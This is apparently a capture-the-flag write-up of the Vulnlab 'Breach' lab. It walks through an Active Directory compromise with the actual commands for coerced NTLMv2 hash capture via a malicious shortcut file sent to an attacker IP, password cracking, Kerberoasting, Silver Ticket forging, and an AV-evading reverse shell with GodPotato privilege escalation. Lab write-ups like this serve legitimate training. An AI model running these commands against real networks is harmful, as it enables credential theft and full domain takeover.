 ```yaml
---
cover: https://photos.squarezero.dev/file/abir-images/Breach/logo.png
date: 2024-12-02 09:45:47 +07:00
modified: 2024-12-02 09:45:47 +07:00
categories: Vulnlab
machine_author: 
  name: xct
  link: https://app.hackthebox.com/users/13569
tags: [DC, Breach, MSSQL, SMB, NTLMv2, Active Directory, Kerberos, Silver Ticket, Privilege Escalation, Enumeration, Credential Theft, Hashcat, John the Ripper, Reverse Shell, Hoaxshell, SeImpersonatePrivilege, getPAC, Ticketer, Lateral Movement, Post-Exploitation, Medium Difficulty]
title: Breach - Vulnlab
---
```


![](https://photos.squarezero.dev/file/abir-images/htbasset/vulnbanner.png)

Breach is a **Medium** difficulty lab that simulates a real-world Windows Active Directory environment with layered security mechanisms. The attack begins with extensive enumeration, uncovering SMB shares accessible via guest login. By leveraging a shortcut file attack, the attacker captures NTLMv2 hashes, which are cracked to retrieve credentials. A Kerberoasting attack yields the hash of a service account, leading to Silver Ticket creation for elevated access to the MSSQL server. Privilege escalation is achieved through the SeImpersonate privilege, bypassing AV protections using encrypted reverse shells. The lab highlights critical post-exploitation techniques, including lateral movement, Silver Ticket forging, and service abuse, culminating in full domain compromise.

# Enumeration
The initial Nmap scan identified the following open ports on the target machine.

***Breach.vl***
```Bash
Machine DC
PORT     STATE SERVICE
53/tcp   open  domain        Simple DNS Plus         
80/tcp   open  http          Microsoft IIS httpd 10.0
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos
135/tcp  open  msrpc         Microsoft Windows RPC              
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn      
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP                    
445/tcp  open  microsoft-ds?     
464/tcp  open  kpasswd5?         
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped        
1433/tcp open  ms-sql-s      Microsoft SQL Server 2019
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP
3269/tcp open  tcpwrapped    
3389/tcp open  ms-wbt-server Microsoft Terminal Services
```

Using a guest account, I confirmed read and write access to one of the available SMB shares.
`netexec smb breach.vl -u 'sz' -p '' --shares`

![](https://photos.squarezero.dev/file/abir-images/Breach/2.png)

# Credential Stealing With Shortcut Files

Within the transfer folder, I discovered a shared directory belonging to another users, to which I lacked access. I leveraged NetMapExec to upload a .lnk (shortcut) file to the primary directory, subsequently moving it into the transfer folder. Shortly thereafter, I captured an NTLMv2 hash for the user Julia Wong.
`netexec smb breach.vl -u 'sz' -p '' -M slinky -o SERVER=10.8.2.110 Name=important SHARES=share`

![](https://photos.squarezero.dev/file/abir-images/Breach/3.png)

The captured hash was cracked using hashcat with the RockYou wordlist.
`hashcat -m 5600 Julia.Wong.hash /usr/share/wordlists/rockyou.txt`

![](https://photos.squarezero.dev/file/abir-images/Breach/4.png)

# Silver Ticket Crafting
Using Julia Wong's credentials, I launched a Kerberoasting attack to obtain the hash of the svc_mssql service account.
`GetUserSPNs.py -dc-ip 10.10.80.252 breach.vl/Julia.Wong -request -outputfile hash.kerberoast`
![](https://photos.squarezero.dev/file/abir-images/Breach/5.png)

The hash successfully cracked using John the Ripper.
`john --wordlist=/usr/share/wordlists/rockyou.txt hash.kerberoast`
![](https://photos.squarezero.dev/file/abir-images/Breach/6.png)

Although logging into the MSSQL server was possible as a guest, the access was restricted.
`mssqlclient.py svc_mssql@10.10.99.32 -windows-auth`
![](https://photos.squarezero.dev/file/abir-images/Breach/7.png)

As svc_mssql is a service account, I crafted a Silver Ticket to gain elevated access. First, I retrieved the domain SID.
`getPac.py -targetUser administrator breach.vl/julia.wong:***********`
![](https://photos.squarezero.dev/file/abir-images/Breach/8.png)

Next, I used ticketer to create a TGT.
`ticketer.py -nthash 69596C7AA1E******************** -domain-sid S-1-5-21-2330692793-3312915120-706255856 -domain breach.vl -dc-ip 10.10.68.245 -spn MSSQLSvc/breachdc.breach.vl:1433 administrator`
![](https://photos.squarezero.dev/file/abir-images/Breach/9.png)

With the TGT, I accessed MSSQL server and achieved command execution on the target machine.
`export KRB5CCNAME=administrator.ccache`
`mssqlclient.py -k breachdc.breach.vl`
![](https://photos.squarezero.dev/file/abir-images/Breach/9.1.png)

# Bypass AV and SeImpersonate
The target machine had antivirus protections in place, which flagged standard reverse shells. I bypassed the AV by generating an encrypted reverse shell using Hoaxshell.
![](https://photos.squarezero.dev/file/abir-images/Breach/10.png)

The svc_mssql user had the SeImpersonate privilege enabled, allowing impersonation of any user on the system.
![](https://photos.squarezero.dev/file/abir-images/Breach/11.png)

To escalate privileges, I utilized GodPotato to execute another Hoaxshell, ultimately obtaining a reverse shell as the Administrator.
![](https://photos.squarezero.dev/file/abir-images/Breach/12.png)